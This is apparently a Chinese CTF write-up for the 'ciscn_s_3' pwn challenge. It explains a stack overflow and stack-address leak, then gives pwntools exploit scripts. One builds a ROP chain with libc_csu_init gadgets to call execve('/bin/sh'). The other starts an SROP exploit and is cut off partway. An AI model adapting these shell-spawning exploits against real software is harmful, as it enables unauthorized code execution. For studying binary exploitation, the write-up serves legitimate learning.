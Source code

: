这个题目很奇怪,我ida无法F5,然后自己手撕汇编.

![image-20210521115053077](image-20210521115053077.png)

程序只调用的系统调用而没有调用libc函数.在程序运行的流程中调用系统调用来读入数据到buf,但buf数据只有0x10大小，所以存在栈溢出。然后，接下来调用系统调用来显示数据，但同样存在输出数据范围大于buf于是存在信息泄露。

### 解法1:execve与libc_csu_init

用利用题目中`mov     rax, 3Bh;ret`gatget来修改rax为0x3b，同时利用libc_csu_init来修改rdx为0，用`pop rdi;ret`来修改rdi 的值指向`/bin/sh`。

```python
from pwn import *
e=ELF('./ciscn_s_3')
context.arch = e.arch
p=process('./ciscn_s_3')

pay='/bin/sh\x00'+'a'*(0x10-len('/bin/sh\x00'))+p64(0x0000000004004F1)

#sgdb.attach(p)
p.sendline(pay)
add=p.recvuntil('\x7f')[-6:].ljust(8,'\x00')
print(hex(u64(add)-0x110))
stack=u64(add)-0x110
log.info('stack:'+hex(stack))
#gdb.attach(p)
rax=0x0000000004004E2  #mov     rax, 3Bh;ret
libc_csu_init_gat1=0x00000000040059A
libc_csu_init_gat2=0x000000000400580
rdi_ret=0x00000000004005a3# pop rdi;ret
syscall_ret=0x0000000000400517# syscall ; ret

pay='/bin/sh\x00'+'a'*(0x10-len('/bin/sh\x00'))+p64(rax)+p64(libc_csu_init_gat1)+p64(0)+p64(1)+p64(stack+0x10)+p64(0)*3+p64(libc_csu_init_gat2)+'a'*0x38+p64(rdi_ret)+p64(stack)+p64(syscall_ret)



p.sendline(pay)
p.interactive()
```

### 解法2：srop

同样我们可以利用srop，在栈中部署一个伪造signal Frame sigcontext，然后用rt_sigreturn来恶意恢复重而get shell。

```python
from pwn import *
e=ELF('./ciscn_s_3')
context.arch = e.arch
#p=remote('node3.buuoj.cn',27681)
p=process('./ciscn_s_3')
vuln=0x0000000004004F1 #
pay='/bin/sh\x00'+'a'*(0x10-len('/bin/sh\x00'))+p64(0x0000000004004F1)

#sgdb.attach(p)
p.sendline(pay)
add=p.recvuntil('\x7f')[-6:].ljust(8,'\x00')
print(hex(u64(add)-0x110))
stack=u64(add)-0x110
log.info('stack:'+hex(stack))
#gdb.attach(p)
syscall_ret=0x0000000000400517# syscall ; ret
rax=0x0000000004004DA  #mov     rax, 0Fh;ret
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
```